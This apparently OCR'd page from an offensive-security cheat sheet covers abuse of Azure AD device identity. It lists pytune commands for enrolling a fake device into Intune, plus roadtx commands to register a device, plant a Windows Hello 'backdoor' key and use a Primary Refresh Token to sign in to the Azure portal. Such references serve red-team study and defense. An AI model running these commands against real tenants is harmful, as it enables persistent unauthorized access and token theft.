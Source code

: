 
### Device State

```ps1
PS> dsregcmd.exe /status
+----------------------------------------------------------------------+
| Device State |
+----------------------------------------------------------------------+
 AzureAdJoined : YES
 EnterpriseJoined : NO
 DomainJoined : NO
 Device Name : jumpvm
```

* **Azure AD Joined** : https://pbs.twimg.com/media/EQZv62NWAAEQ8wE?format=jpg&name=large
* **Workplace Joined** : https://pbs.twimg.com/media/EQZv7UHXsAArdhn?format=jpg&name=large
* **Hybrid Joined** : https://pbs.twimg.com/media/EQZv77jXkAAC4LK?format=jpg&name=large
* **Workplace joined on AADJ or Hybrid** : https://pbs.twimg.com/media/EQZv8qBX0AAMWuR?format=jpg&name=large


### Join Devices

[Enroll Windows 10/11 devices in Intune](https://learn.microsoft.com/en-us/mem/intune/user-help/enroll-windows-10-device)

* [secureworks/pytune](https://github.com/secureworks/pytune) - Pytune is a post-exploitation tool for enrolling a fake device into Intune with mulitple platform support.
    ```ps1
    usage: pytune.py [-h] {entra_join,entra_delete,enroll_intune,checkin,retire_intune,check_compliant,download_apps} ...

    python3 pytune.py entra_join -o Windows -d Windows_pytune -u testuser@*******.onmicrosoft.com -p ***********
    python3 pytune.py enroll_intune -o Windows -d Windows_pytune -c Windows_pytune.pfx -u testuser@*******.onmicrosoft.com -p ***********
    python3 pytune.py checkin -o Windows -d Windows_pytune -c Windows_pytune.pfx -m Windows_pytune_mdm.pfx -u testuser@*******.onmicrosoft.com -p ***********
    python3 pytune.py check_compliant -o Windows -c Windows_pytune.pfx -u testuser@*******.onmicrosoft.com -p ***********
    python3 pytune.py check_compliant -o Windows -c Windows_pytune.pfx -u testuser@*******.onmicrosoft.com -p *********** -H $HWHASH
    ```



### Register Devices

```ps1
roadtx device -a register -n swkdeviceup
```


### Windows Hello for Business

```ps1
roadtx.exe prtenrich --ngcmfa-drs-auth
roadtx.exe winhello -k swkdevicebackdoor.key
roadtx.exe prt -hk swkdevicebackdoor.key -u <user@domain.lab> -c swkdeviceup.pem -k swkdeviceup.key
roadtx browserprtauth --prt <prt-token> --prt-sessionkey <prt-session-key> --keep-open -url https://portal.azure.com
```
